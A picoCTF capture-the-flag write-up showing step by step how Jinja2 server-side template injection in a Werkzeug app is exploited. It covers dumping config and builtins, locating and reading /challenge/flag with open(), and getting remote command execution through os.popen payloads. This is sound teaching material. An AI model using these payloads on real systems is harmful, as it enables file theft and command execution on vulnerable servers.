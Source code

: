 ```yaml
---
title: "SSTI1 (without RCE..?)"
description: "I made a cool website where you can announce whatever you want! Try it out!\nI heard templating is a cool and modular way to build web apps! Check out my website!\n\nHints: Server Side Template Injection"
pubDate: 2025-03-20
category: "web"
author: "sealldev"
section: "PicoCTF"
tags: ["easy"]
# image: "./images/picoctf/bitlocker2/icon.png"
---
```


We start with a web instance that has a basic user input field to 'announce' something:
![home.png](images/picoctf/ssti1/home.png)

As the hint references SSTI, I start with a very common test for template injection with `{{7*7}}`.

In return, we are redirected to `/announce`, and we get a big confirmation for SSTI:
![49.png](images/picoctf/ssti1/49.png)

Let's see if we can identify what technology this application is made with. I check the Headers from a response from the server (This can be done with Burp Suite, curl, etc) and there is a `Server` header:
```
Server: Werkzeug/3.0.3 Python/3.8.10
```

Python! Let's check PayloadAllTheThings for some initial payloads, typically Werkzeug is using Jinja2 (you can see this from some searching around the interwebs):
![basicpayloads.png](images/picoctf/ssti1/basicpayloads.png)

Accessing `builtins` and config seems like a good start, let's start with dumping the config using `{{config.items()}}`.
```
dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])
```

Not much of interest is in this application's config, let's look at the `builtins`! Starting with `{{self.__init__.__globals__.__builtins__}}`:
```
{'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': &lt;class '_frozen_importlib.BuiltinImporter'&gt;, '__spec__': ModuleSpec(name='builtins', loader=&lt;class '_frozen_importlib.BuiltinImporter'&gt;), '__build_class__': &lt;built-in function __build_class__&gt;, ... 'IsADirectoryError'&gt;, 'NotADirectoryError': &lt;class 'NotADirectoryError'&gt;, 'InterruptedError': &lt;class 'InterruptedError'&gt;, 'PermissionError': &lt;class 'PermissionError'&gt;, 'ProcessLookupError': &lt;class 'ProcessLookupError'&gt;, 'TimeoutError': &lt;class 'TimeoutError'&gt;, 'open': &lt;built-in function open&gt;, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': Copyright (c) 2001-2021 Python Software Foundation.
All Rights Reserved.

Copyright (c) 2000 BeOpen.com.
All Rights Reserved.

Copyright (c) 1995-2001 Corporation for National Research Initiatives.
All Rights Reserved.

Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam.
All Rights Reserved., 'credits':     Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands
    for supporting Python development.  See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}
```

There is *a lot* of functions in `builtins`, but for file read, `open` is pretty good! It's likely the flag is hidden as a file on the system.

There is also a `sys` module which has some more capabilities.

I take a look at `{{self.__init__.__globals__.sys.__dir__()}}` and look for anything related to files, paths, etc. `__dir__()` is used here to list the functions available inside `sys`, while `__dict__` shows the dictionary key value pairs.
```
['__name__', '__doc__', '__package__', '__loader__', '__spec__', 'addaudithook', 'audit', 'breakpointhook', 'callstats', '_clear_type_cache', '_current_frames', 'displayhook', 'exc_info', 'excepthook', 'exit', 'getdefaultencoding', 'getdlopenflags', 'getallocatedblocks', 'getfilesystemencoding', 'getfilesystemencodeerrors', 'getrefcount', 'getrecursionlimit', 'getsizeof', '_getframe', 'intern', 'is_finalizing', 'setcheckinterval', 'getcheckinterval', 'setswitchinterval', 'getswitchinterval', 'setdlopenflags', 'setprofile', 'getprofile', 'setrecursionlimit', 'settrace', 'gettrace', 'call_tracing', '_debugmallocstats', 'set_coroutine_origin_tracking_depth', 'get_coroutine_origin_tracking_depth', 'set_asyncgen_hooks', 'get_asyncgen_hooks', 'unraisablehook', 'modules', 'stderr', '__stderr__', '__displayhook__', '__excepthook__', '__breakpointhook__', '__unraisablehook__', 'version', 'hexversion', '_git', '_framework', 'api_version', 'copyright', 'platform', 'maxsize', 'float_info', 'int_info', 'hash_info', 'maxunicode', 'builtin_module_names', 'byteorder', 'abiflags', 'version_info', 'implementation', 'flags', 'float_repr_style', 'thread_info', 'meta_path', 'path_importer_cache', 'path_hooks', 'path', 'executable', '_base_executable', 'prefix', 'base_prefix', 'exec_prefix', 'base_exec_prefix', 'pycache_prefix', 'argv', 'warnoptions', '_xoptions', 'dont_write_bytecode', '__stdin__', 'stdin', '__stdout__', 'stdout', '_home', '__interactivehook__']
```

Inside this there are some things related to `path`! We can use `{{self.__init__.__globals__.sys.path}}` to leak the current path:
```
['/challenge', '/usr/local/bin', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
```

We can see `/challenge` is our path!

Let's have a look at the other `sys` functions related to `path`:
- `meta_path` doesn't have a lot
- `path_importer_cache` has some things of interest!


If we access `path_importer_cache` with `{{self.__init__.__globals__.sys.path_importer_cache}}` we can see `/challenge` is listed as an option:
```
{... '/challenge': FileFinder('/challenge'), ...}
```

Let's access it with `{{self.__init__.__globals__.sys.path_importer_cache['/challenge']}}`:
```
... '_path_cache': {'flag', 'requirements.txt', 'app.py', '__pycache__'} ...
```

We can see a `flag` in `/challenge`! So the path of our flag is `/challenge/flag`.

We can now use the `open` utility from `builtins` earlier to read the file with: `{{self.__init__.__globals__.__builtins__.open('/challenge/flag').read()}}` and get the flag!

Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}`

### THE MUCH EASIER WAY
I was silly and did NOT scroll down! So I solved it without RCE (for no reason!!!). With this payload (given on PayloadAllTheThings) we get RCE:
```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

We are returned:
```
__pycache__
app.py
flag
requirements.txt
```

Now we can just use `cat flag` to get the flag...
```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat%20flag').read()}}
```

_sigh..._

